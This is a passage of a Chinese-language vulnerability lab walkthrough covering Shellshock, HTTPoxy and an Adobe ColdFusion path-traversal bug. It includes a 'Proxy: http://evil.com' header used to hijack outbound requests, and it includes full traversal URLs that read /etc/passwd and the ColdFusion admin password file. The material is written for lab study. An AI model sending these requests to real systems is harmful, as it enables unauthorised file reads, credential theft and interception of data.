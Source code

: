 > 如果反弹不成功，注意crontab文件的格式，以及换行符必须是`\n`，且文件结尾需要有一个换行符。

当然，我们也可以尝试写入其他文件

### [](#3-shellshock "3.shellshock")3.shellshock

Shellshock 破壳漏洞（CVE-2014-6271）  
访问`http://192.168.6.130/`，有两个文件：

* safe.cgi
* victim.cgi

其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

带上payload访问victim.cgi，命令成功被执行：

同样的数据包访问safe.cgi，不受影响：

### [](#3-cgi "3.cgi")3.cgi

HTTPoxy漏洞（CVE-2016-5385）

参考：[http://www.laruence.com/2016/07/19/3101.html](原理)

简单来说，根据RFC 3875规定，cgi（fastcgi）要将用户传入的所有HTTP头都加上`HTTP_`前缀放入环境变量中，而恰好大多数类库约定俗成会提取环境变量中的`HTTP_PROXY`值作为HTTP代理地址。于是，恶意用户通过提交`Proxy: http://evil.com`这样的HTTP头，将使用缺陷类库的网站的代理设置为`http://evil.com`，进而窃取数据包中可能存在的敏感信息。

PHP5.6.24版本修复了该漏洞，不会再将`Proxy`放入环境变量中。本环境使用PHP 5.6.23为例。

当然，该漏洞不止影响PHP，所有以CGI或Fastcgi运行的程序理论上都受到影响。

正常请求`http://your-ip/index.php`，可见其Origin为当前请求的服务器，二者IP相等：

在其他地方找到一个可以正常运行的http代理，如`http://x.x.122.65:8888/`。

附带`Proxy: http://x.x.122.65:8888/`头，再次访问`http://your-ip/index.php`：

如上图，可见此时的Origin已经变成`x.x.122.65`，也就是说真正进行HTTP访问的服务器是`x.x.122.65`，也就是说`x.x.122.65`已经将正常的HTTP请求代理了。

在`x.x.122.65`上使用NC，就可以捕获当前请求的数据包，其中可能包含敏感数据：

### [](#4-coldfusion "4.coldfusion")4.coldfusion

#### [](#1-Adobe-ColdFusion-文件读取漏洞（CVE-2010-2861） "(1)Adobe ColdFusion 文件读取漏洞（CVE-2010-2861）")\(1\)Adobe ColdFusion 文件读取漏洞（CVE-2010-2861）

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

直接访问`http://192.168.6.130:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`

读取后台管理员密码`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：

#### [](#Adobe-ColdFusion-反序列化漏洞（CVE-2017-3066） "Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）")Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）
